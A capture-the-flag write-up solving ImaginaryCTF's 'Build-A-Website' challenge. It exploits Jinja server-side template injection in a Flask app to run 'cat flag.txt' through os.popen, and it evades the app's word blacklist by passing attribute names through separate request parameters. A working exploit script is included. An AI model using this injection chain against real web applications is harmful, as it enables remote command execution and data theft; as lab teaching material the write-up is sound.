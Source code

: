 # Build-A-Website | Points: 100 | Solves: 247

I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask. 

Attachments: 
- https://imaginaryctf.org/r/3ACF-app.py
- http://build-a-website.chal.imaginaryctf.org/

#

When visiting the site we are presented with a short descriptive text and an input field where we are "supposed" to input some HTML code. We are however obviously going to input other things than just plain old HTML. 

Taking a look at <span>app.py</span> we find the following interesting piece of code:
```python
@app.route('/site')
def site():
    content = b64decode(request.args['content']).decode()
    #prevent xss
    blacklist = ['script', 'iframe', 'cookie', 'document', "las", "bas", "bal", ":roocursion:"] # no roocursion allowed
    for word in blacklist:
        if word in content:
            # this should scare them away
            content = "*** stack smashing detected ***: python3 terminated"
    csp = '''<head>\n<meta http-equiv="Content-Security-Policy" content="default-src 'none'">\n</head>\n'''
    return render_template_string(csp + content)
```

Whatever we write into the "content" variable will have to pass the blacklist and the CSP. The words "las", "bas" and "bal" look a little weird but practically they will stop us from accessing attributes like ```__class__```, ```__globals__``` or ```__bases__```. Or atleast we will have to get a bit more creative to do so. At the end of this writeup I will discuss how to bypass the blacklist but let's first discuss what our objective is. 

There probably exists a file like "flag.txt" and our end goal will be to read it. How can we do that? Either we take the pure python route and use open() or we attempt to get a shell and use cat. Lets investigate how we might access those normally, without a blacklist. As previously mentioned we are given an input field and a good thing to try out is to check for flask injections, or more specifically Jinja injections (which will obviously work since we have the source code but nevertheless a good thing to try in a blackbox scenario). We can input ```{{1+1}}``` and proudly observe the resulting site content is "2". Furthermore we can investigate some global variables available in Flask, specifically we will use "config" and "request". Remember that we wish to read a file and in this case lets choose to try to get a shell. For that we will need to access the os module to then in turn call ```os.popen("cat flag.txt").read()```. How can we do that? The answer is by traversing Pythons object hierarchy! 

Let's again imagine there is no blacklist. Inputing ```{{config.__class__}}``` we can see the class that config belongs to is ```dict```. From here we have a couple options. The os module can sometimes be access via the attribute ```__globals__```. We can try something like ```{{config.__class__.__init__.__globals__}}``` but this gets us nothing. Honestly I don't know when and why this does or doesn't work but what I do know is sometimes the os module can be accessed this way and even more importantly there are other ways to access it. For example we can import it via the function ```load_module``` from the class ```_frozen_importlib.BuiltinImporter```. This is a direct subclass of the ```object``` class, the root class of all classes in Python. We can go down in the class hierarchy via the ```__subclass__``` function and we can just as easily go up the hierarchy via the function ```mro```. A few details remain like the fact that when traversing the object hierarchy we sometimes have to deal with lists which have to be indexed using numbers and the exact order differs from system to system. Nevertheless our exploit to read flag.txt looks like this: 

```python
config.__class__.mro()[1].__subclasses__()[84].load_module("os").popen("cat flag.txt").read()
```

Great! But so far I have said things like "imagine there is no blacklist" all the while making claims about some code working and some not. To bypass the blacklist we can use a nice trick. In Python we have two options when accessing attributes of a class, either by ```class.someAttribute``` or ```class["someAttribute"]```. Furthermore notice the blacklist is only applied to the "content" parameter. We are otherwise free to pass whatever content we want to other parameters which we can exploit. Remember that Flask has a global variable "request", through which we can access get-parameters. Aha! Finally our exploit is finished:

```python
import requests
from base64 import b64encode
params = {
    "a" : "__class__", 
    "b" : "__subclasses__", 
    "content" : b64encode(b"{{config[request.args.a].mro()[1][request.args.b]()[84].load_module('os').popen('cat flag.txt').read()}}")
}
r = requests.get("https://build-a-website.chal.imaginaryctf.org/site", params=params)
print(r.text)
```

This will expand to:

```python
config["__class__"].mro()[1]["__subclasses__"]()[84].load_module("os").popen("cat flag.txt").read()
```

Which gets us the flag: ictf{:rooYay:\_:rooPOG:\_:rooHappy:\_:rooooooooooooooooooooooooooo:}
